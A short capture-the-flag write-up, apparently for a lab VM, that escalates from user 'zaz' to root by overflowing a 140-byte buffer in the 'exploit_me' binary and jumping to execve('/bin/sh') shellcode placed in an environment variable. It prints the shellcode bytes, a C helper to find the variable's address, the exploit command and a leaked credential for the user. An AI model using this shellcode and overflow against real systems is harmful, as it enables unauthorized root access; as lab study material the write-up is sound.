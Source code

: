 starting from the writeup1 when we are connected to `zaz` user with `646da671ca01bb5d84dbb5fb2238dc8e`.

there is a different attack we can use on the buffer overflow on the `exploit_me` binary.
instead of using a `ret2libc` attack with system, we can use a shellcode stored in a environment variable.
we will put a shellcode (assembly instructions in hex format, the kind used by any program when loaded in memory) in a environment variable, and redirect the main's return address to the environment variable's address.

shellcode found on https://axcheron.github.io/linux-shellcode-101-from-hell-to-shell/.

```
export code=$(python -c "print('\x90'*8 + '\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80')")
```

and simple C program to get the address of the environment variable:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) { printf("%p\n", getenv(argv[1])); }
```

`gcc main.c && ./a.out code`: `0xbfffff4b`

we know from the previous writeup that the buffer is 140 bytes long:

```shell
./exploit_me $(python -c 'print "i"*140 + "\x4b\xff\xff\xbf"')
```

and we are root !
